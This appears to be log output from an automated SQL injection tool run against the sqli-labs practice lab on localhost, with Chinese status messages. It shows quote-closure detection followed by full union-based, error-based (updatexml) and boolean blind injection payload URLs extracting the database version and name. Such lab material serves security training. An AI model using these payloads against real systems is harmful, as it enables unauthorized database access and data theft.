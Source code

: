 


url: http://127.0.0.1/sqli-labs/Less-11
判断闭合方式
[   ] [ '  ] [ ')  ] [ '))  ] [ "  ] [ ")  ] [ "))  ] 即将开始联合注入

............
.......
联合注入payload： http://127.0.0.1/sqli-labs/Less-11/?id=1"  and 1 = 0 union select 1,version(),database() %23
..
判断联合查询失败，自动开始报错注入

报错注入payload: http://127.0.0.1/sqli-labs/Less-11/?id=1"  and 0  union SELECT updatexml(1,concat(0x7e,version()),3) %23
判断报错注入失败,没有获取信息，自动开始盲注


尝试盲注
http://127.0.0.1/sqli-labs/Less-11/?id=1"  and length(version())>=4 %23
false
...........
....................
....................
...................

盲注成功


尝试盲注
http://127.0.0.1/sqli-labs/Less-11/?id=1"  and length(database())>=4 %23
false
.
....................
....................
....................
..........

盲注成功




url: http://127.0.0.1/sqli-labs/Less-12
判断闭合方式
[   ] [ '  ] [ ')  ] [ '))  ] [ "  ] [ ")  ] [ "))  ] 即将开始联合注入

..........
........
联合注入payload： http://127.0.0.1/sqli-labs/Less-12/?id=1"  and 1 = 0 union select 1,version(),database() %23
..
判断联合查询失败，自动开始报错注入

报错注入payload: http://127.0.0.1/sqli-labs/Less-12/?id=1"  and 0  union SELECT updatexml(1,concat(0x7e,version()),3) %23
判断报错注入失败,没有获取信息，自动开始盲注
